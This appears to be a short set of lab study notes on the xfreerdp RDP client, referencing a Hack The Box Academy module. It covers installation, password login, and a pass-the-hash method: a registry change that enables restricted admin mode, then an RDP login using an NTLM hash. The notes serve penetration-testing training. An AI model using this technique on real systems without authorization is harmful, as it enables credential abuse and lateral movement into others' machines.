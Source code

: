 xfreerdp
##########

Date: 2024-11-21 10:53

Status:

xfreerdp Description
**********************

A Linux client to connect to rdp services

xfreerdp Installation
***************
.. code-block:: console

   sudo apt install xfreerdp

xfreerdp Usage
****************

.. code-block:: console

   xfreerdp /v:10.129.42.197 /u:user /p:password

xfreerdp accessing with Pass the hash
***************************************

Step 1: Adding a reg key to allow it

.. code-block:: console

   C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f

| Step 2:
| Use the hash instead of the password

.. code-block:: console

   xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9

References
*************
https://academy.hackthebox.com/module/147/section/1327
